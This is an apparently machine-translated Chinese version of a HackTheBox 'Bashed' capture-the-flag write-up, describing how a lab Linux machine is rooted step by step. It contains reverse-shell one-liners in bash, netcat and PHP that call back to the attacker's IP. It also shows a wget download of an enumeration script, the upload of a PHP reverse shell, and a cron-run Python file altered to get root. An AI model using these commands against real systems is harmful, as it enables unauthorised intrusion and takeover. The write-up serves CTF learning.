# 一篇关于黑客的文章

> 原文：<https://infosecwriteups.com/bashed-a-hackthebox-writeup-176884601d86?source=collection_archive---------0----------------------->

> 所以，我刚从 [HackTheBox](https://www.hackthebox.eu) 开始，整个想法真的很棒，为全世界的黑客提供在线 CTF 来练习和磨练他们的技能。对 [IPPSEC](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 的另一个大喊，为了更好地理解，本文中使用的图像取自他的视频。



这篇文章是一个容易理解的一步一步的过程，其中我详细解释了如何获得“被攻击”的机器的根访问权的过程之一。

# 让我们开始吧！

连接 hackthebox 机器并设置 OpenVPN 你可以在这里观看。所以，我就不多讨论了，进入核心部分我们开始一个一个开门。主要目标是获得对受攻击的 linux 机器的根访问权，现在我们只知道它的 IP 地址(10.10.10.68)。

## Nmap

这是您在任何 CTF 中执行的第一步，您需要侵入一台机器，因为我们需要找出端口，即我们可以进入机器的网关，Nmap 是最佳的工具。

```
nmap -sC -sV 10.10.10.168
```

上面的命令是我运行的第一个命令，用来找出机器上打开的端口。



Nmap 输出

端口 80 是打开的，除了什么都没有打开。端口 80 是易受攻击机器上最常见的开放端口之一。

## 网站(全球资讯网的主机站)

所以一旦我们弄明白了这一点，我马上打开了网站，http://10.10.10.68 。



这基本上是第一步，因为网站本身会引导您找到不同的线索和提示来入侵易受攻击的机器。

因此，一旦我们在浏览器中打开网站，我们就会看到这个页面。

这个网页有一个链接，链接到一个描述 phpbash 的页面，并显示了一个基于 web 的 shell 命令提示符的图像。



这个页面还为我们提供了一个到 phpbash 的 [Github 页面的链接，这里有 phpbash 的代码。](https://github.com/Arrexel/phpbash)

基于网络的外壳给了我们一个想法，要破解这台机器，我们可能需要启动正在讨论的网络外壳。

## GoBuster

现在，当我们收到一个开放端口 80 或 443 时，我们采取的第二步是使用 GoBuster 对这台机器上可能存在的子域进行详细搜索，因为这些子域会引导我们找到下一步的线索。



通过 GoBuster 进行子域搜索

在找出不同子域的步骤中，我们找到了上面列出的几个。我们首先访问/uploads 子域，它是一个空白的白色页面。



/dev 子域

然后我们进入/php 子域，它包含以下数据，暴露了 sendMail.php 文件。

然后我们进入 dev/ subdomain，在那里我们遇到了 phpbash.php 脚本，它是一个基于 web 的 shell 的链接，我们可以进入下一个级别以实现 root 访问。

## 基于 Web 的外壳

基于 web 的 shell 让我们可以访问命令行来运行我们的命令，这是一个很大的进步，因为现在我们有了一个命令行。



因此，一旦我们得到这个 shell，我们将运行我们的基本命令来计算我们当前拥有的特权的范围。

第一个命令是“id ”,用于了解用户的详细信息。所以我们目前是一个名为 www-data 的用户。

现在，为了检查我们拥有的特权，我们将运行一个[脚本](https://netsec.ws/?p=309)来解决这个问题。为此，我们需要该脚本存在于易受攻击的机器上，因此第一步是将脚本从我们的机器转移到这台机器上。

首先，我们在我们的机器上下载所需的脚本，然后将它发送到我们存储关于被攻击机器的数据的文件夹中。一旦脚本出现在特定的文件夹中，我们就设置一个 httpServer，这样文件夹的内容就可以通过网络获得。



Linux 特权检查器脚本

现在，我们已经在机器上设置了 httpServer。我们回到易受攻击的机器上基于 web 的 shell，因为一旦文件通过 httpServer 上传，我们现在就可以使用“curl”或“wget”命令将其下载到我们的机器上。

这台机器上没有 Curl 命令，所以我们必须使用 wget 将文件下载到易受攻击的机器上。

```
var/www/html/dev# wget 10.10.14.30/LinEnum.sh
```

当从给定的文件夹执行上面的命令时，权限被拒绝，然后我们转到/dev/shm 目录，上面的命令开始工作。

一旦我们有了 LinEnum.sh 文件，我们就执行它来计算当前用户的特权和其他细节。

```
var/www/html/dev/shm# bash LinEnum.sh
```

我们获得了以下结果:

*   linux 版本已更新，因此在这里发现任何漏洞的可能性极小。
*   目前我们的用户 id 是(www-data)，还有一个名为 scriptmanager 的用户。
*   我们可以在没有密码的情况下使用& scriptmanager 可以运行任何东西。
*   我们目前拥有的 web 外壳不是持久的。

> 为了检查这一点，我们运行命令

```
sudo -u scriptmanager bash
```

> 和

```
python -c ‘import pty;pty.spwan(“/bin/bash”)’ 
```

> 但我们仍然是 www-data

因此，我们获得的 web shell 不是持久的，我们需要获得一个持久的 shell，因此我们必须执行一个反向 shell。

## [测笔猴](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

为了建立到易受攻击机器的反向 shell 连接，我们转到由 Pen-Test Monkey 提供的备忘单列表。这是一个非常有用的工具。

第一步是在我们的机器上设置一个监听器，在这里会弹出反向 shell。因此，一旦侦听器启动，我们就在易受攻击的机器中的基于 web 的 shell 中传递几个命令来启动反向 shell(不要忘记更改 IP 地址和端口号)。



**痛击**

```
bash -i >& /dev/tcp/10.10.14.38/8081 0>&1
```

**网猫**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 8081 >/tmp/f
```

**PHP**

```
php -r '$sock=fsockopen("10.10.14.38”,8081);exec("/bin/sh -i <&3 >&3 2>&3");'
```

在所有这些尝试之后，我们仍然无法发射反向炮弹。然后我们试着上传一个 php 反向 shell。早些时候，当我们使用 GoBuster 时，我们遇到了一个域/上传。我们转到易受攻击的机器中的特定目录，尝试创建一个文件，看看我们是否有权限这样做，我们键入以下命令

```
var/www/html/uploads# touch test
```

我们打开浏览器检查 URL[http://10 . 10 . 10 . 68/uploads/test](http://10.10.10.68/uploads/test)是否有效，幸运的是它有效。

然后，我们将 php-reverse-shell.php 文件复制到我们存储 LinEnum.sh 文件的文件夹中，并像以前一样使用 wget 将 php 文件下载到易受攻击的机器中。我们对 php 文件进行必要的更改，比如更改 IP 地址和监听的端口号。



我们将 php-reverse-shell.php 文件转移到 uploads 文件夹，然后在浏览器上访问 URL[http://10 . 10 . 10 . 68/uploads/PHP-reverse-shell . PHP](http://10.10.10.68/uploads/php-reverse-shell.php)。我们一访问这个网站，反向外壳就会在我们的机器上弹出。



反向外壳

## 卡利机

我们回到了我们的 Kali 机器上，反向外壳刚刚产生的地方。我们再次执行基本命令来检查我们拥有什么用户特权，shell 是否是持久的。所以外壳是持久的，我们仍然是 www-data。

为了将我们自己从 www-data 更改为 scriptmanager，我们运行以下命令

```
$ sudo -u scriptmanager bash
```

执行上述命令后，我们再次检查我们是哪个用户，现在我们是 scriptmanager。

现在我们做一个“ls -la”来查看 scriptmanager 对哪些文件和文件夹有读、写或执行特权。有一个名为 scripts 的文件夹，其特权被分配给 scriptmanager，我们进入该文件夹，并再次执行“ls -la”以获得有关 scripts 文件夹中文件的详细信息。



有两个文件，其中一个是 test.py，位于 scriptmanager 下，另一个是 test.txt，位于 root 下，因此我们现在知道必须使用这两个文件。



test.py(原始)

我们打开 test.py，然后分析其中编写的代码，test.py 中编写的代码显示“testing 123！”在 test.txt 文件中。有一点很难注意到，但是 test.txt 文件每分钟都在更新，我们在执行“ls -la”命令时发现这一点，并看到 test.txt 文件每分钟都在更新。

这就建立了 test.py 和 test.txt 之间的链接，因此无论我们在 test.py 中执行什么代码，这些更改都会像根用户所做的那样发生。

我们从 pen-test monkey 复制一个 python 脚本，在易受攻击的机器上启动一个根 shell(正确格式化它，并在保存之前更改 IP 地址和端口号)



test.py(已更新)

让代码自己运行，或者只输入“python test.py ”,你应该得到一个反向 shell，检查 id，你应该是 root。



根访问

这就是被攻击的机器是如何被黑的。

# 道德的

熟悉你所使用的工具，清楚地列出你在每一步需要采取的步骤。不要放弃，这是你在做这些 CTF 时需要做的一件事，并且试着自己去做。开始的时候会很艰难，然后你会慢慢地开始一步步走起来。

如果你喜欢，请鼓掌让我们合作吧。获取、设置、破解！

网址:【aditya12anand.com】T2|捐赠:【paypal.me/aditya12anand】T4

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com